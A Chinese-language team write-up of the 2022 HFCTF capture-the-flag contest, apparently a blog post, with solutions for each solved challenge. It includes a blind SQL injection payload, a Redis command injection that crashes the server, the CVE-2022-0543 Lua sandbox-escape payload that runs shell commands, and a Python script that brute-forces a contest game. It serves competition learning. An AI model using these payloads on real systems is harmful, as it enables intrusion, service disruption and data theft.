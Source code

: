 ```yaml
---
title: 2022 HFCTF Writeup 
tags: ['Writeup', 'HFCTF']
categories: Writeup
date: 2022-03-21 00:00:00
toc: true
---
```


2022数字中国创新大赛虎符网络安全赛道

<!--more-->

排名(高校) | 排名(总) | 解题 |  得分
-|-|-|-
31 | 42 | 6 | 1529

分类 | 名称 | 分值
-|-|-
Web | [babysql](#babysql) | 232 pt
Misc | [Check in](#check-in-一血) | 31 pt 
Misc | [Plain Text](#plain-text) | 79 pt
Misc | [Quest-Crash](#quest-crash) | 99 pt
Misc | [Quest-RCE](#quest-rce) | 150 pt
Misc | [handle](#handle-二血) | 909 pt

## Web
### babysql
username&password 注入  
```
'or~''and`password`COLLATE`utf8mb4_0900_as_cs`regexp'^[[prefix]]'and`password`regexp'(
```
通过 `[[prefix]]` 盲注，401 为 failed，500 为 match。  
得到  
username: `QaY8TeFYzC67aeoO`  
password: `m52FPlDxYyLB^eIzAr!8gxh$`

## Misc
### Check in (一血)
全选复制快速签到，号称COMPASS签到团

### Plain Text
base64得解码后的东西试了各种常见编码加密，未果。  
打开谷歌翻译，源语言选俄语，然后直接键盘输入，得到了flag：  
`所有的密码都很细，苹果和西瓜`  

为什么发现是俄语呢，因为google前两个词，出来了俄语文章  
### Quest-Crash
```
{"query":"SET 114514 1919810\nGET 114514\nPING"}
```  
可以执行多条，可以绕过，于是   
```
{"query":"SET 114514 1919810\nGET 114514\nDEBUG SEGFAULT"}
```  
可以崩掉服务。

### Quest-RCE
根据[ vulhub/CVE-2022-0543 ](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543) 找到payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
题目环境和版本完美符合，不需要改lib路径，放到上一题的请求后边就可以RCE  
```
{"query":"SET 114514 1919810\nGET 114514\neval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat flag_UVEmnDKY4VHyUVRVj46ZeojgfZpxzG", "r"); local res = f:read("*a"); f:close(); return res' 0"}
```

### handle (二血)
~~（隔壁某show平台上周刚做过类似的题，于是很快就把字典搞出来了，但是交互写了很久丢掉了一血）~~
思路就是找一个有优势的固定词开头，然后根据返回结果分枝(枝)，根据不同枝选择不同的尝试（剪枝，但是其实是只处理一枝），这样接下来要处理的重复量就少很多，重复这个过程两次，几乎每一个可能的词都有对应序列了。  
简单统计一下生母韵母音调的频率，但是依据这个找出比较常见的词跑三轮之后会有400+个重复的路线，也就是这400+个词如果抽到大概率失败，算一下成功率`pow(1-400/26000,512)`是恐怖的万分之三，于是random choice字典里的词开始跑，最后找到 **露己扬才** 只有一百多重复，成功率`pow(1-100/26000,512)`已经提升到了十分之一，决定多跑几次出flag。  
P.S.因为成功之后就没有 **>** 输出了，所以边界条件炸了，在第512轮强制进交互赌第二轮出结果。  

首先是生成字典的函数，kk是第一个固定的开头词，根据每次返回的文本更新键值对，然后对有多个结果的key迭代延长，每次选择第一个可能的结果，最后的重复个数即为有可能失败的词的数量：
```python
# 其余内容和源代码完全一样，节省空间就不粘贴了
with open('idioms.txt', 'r', encoding='utf8') as f: # utf8
    idioms = [x.strip() for x in f.readlines()]

def check(guess, answer): # 魔改的check，改返回值为输出内容 方便到时候直接用服务器返回内容更新
    guesspy = get_pinyin(guess)
    answerpy = get_pinyin(answer)
    r = ""
    py_results = [check_part(guesspy[i], answerpy[i]) for i in range(3)]
    for i in range(4):
        for j in range(3):
            r += (wrap_color(guesspy[j][i], py_results[j][i]))
        r += ' '
    r += '\n'
    results = check_part(guess, answer)
    for i in range(4):
        r += wrap_color(guess[i], results[i])
    r += '\n'
    return r.encode(), r

def gen(kk):
    d = {}
    dup = []
    for i in idioms:
        s = check(kk, i)[0] 
        if s in d.keys():
            d[s].append(i) # 其实这里用s的哈希也是可以的，但是不方便debug，而且提速不明显
            dup.append(s)
        else:
            d[s] = [i]
    print(f'finish init round1 with {len(dup)} dup.')
    dup = set(dup)
    dup2 = []
    for i in dup:
        for j in d[i]:
            s = check(d[i][0], j)[0]
            if s in d.keys():
                d[s].append(j)
                dup2.append(s)
            else:
                d[s] = [j]
    print(f'finish init round2 with {len(dup2)} dup.')
    dup2 = set(dup2)
    dup3 = []
    for i in dup2:
        for j in d[i]:
            s = check(d[i][0], j)[0]
            if s in d.keys():
                d[s].append(j)
                dup3.append(s)
            else:
                d[s] = [j]
    print(f'finish init round3 with {len(dup3)} dup.')
    return d

while True:
    s=random.choice(idioms)  # 因为遍历不完，连续的词特征重复性高，所以随机抽了
    print(s)
    d = gen(s) # 如果第三个结果能小于200就能用了，多跑几轮肯定能拿到flag
    list3_file = open('list3.pickle', 'wb1')
    pickle.dump(d, list3_file)
    list3_file.close()
```
然后是多次尝试的利用脚本
```python
list3_file = open('list3.pickle', 'rb') # 上边生成的
d = pickle.load(list3_file)
# context.log_level = 'debug'

while True:
    try:
        p = remote("120.77.30.1", 48771)
        p.recvuntil(b"> ")
        for r in range(512):
            print(r)
            p.sendline('露己扬才'.encode())
            res = p.recvuntil(b"> ")
            while b'Round' not in res:
                s = res[:-2]
                p.sendline(d[s][0])
                if r == 511:
                    p.interactive() # 边界条件炸了，在第512轮强制进交互赌第二轮出结果
                res = p.recvuntil(b"> ")
    except:
            time.sleep(1)

p.interactive()
```
因为疫情不在学校，交互提速的小trick就是去IP所在地租个服务器，比如这里租个广东的阿里云或者腾讯云的服务器，交互飞快，几秒跑一轮，体验如同本地一般。  

## 后记
RE的2048完美还原了js，找到了后门函数和魔改的TEA加密还有换表的base64。  
但是对四个native方法的逆向没有完成，静态绑定的两个方法勉强能看，check和pre两个动态方法就找不到符号了。  
本地没准备好ARM环境上不了动态，被so的OLLVM爆杀，遗憾放弃。  

PWN的签到babaygame泄露出rbp-4不知道能做什么，随机数比较好模拟，但是格式化字符串只能利用一次。  
按之前的知识需要第一次泄露libc地址比如__libc_start_main+243，第二次写返回地址为gadget或者system，需要两次。  
然后想能不能覆写ret的低位短跳一下重复执行格式化字符串的函数，然后就是常规思路了。  
或者也可以暴力爆PIE，但是这两个思路都没来得及实现。

总之还是有不少遗憾的，这两题再出一题就能公费旅游了（大概）。
不过第一次和全国几乎所有顶级强队竞技能拿到这样的排名也是一大进步了，考虑到前边还有清北复浙交北邮中科大国科大，我们高校组排名好像还不错（逃）
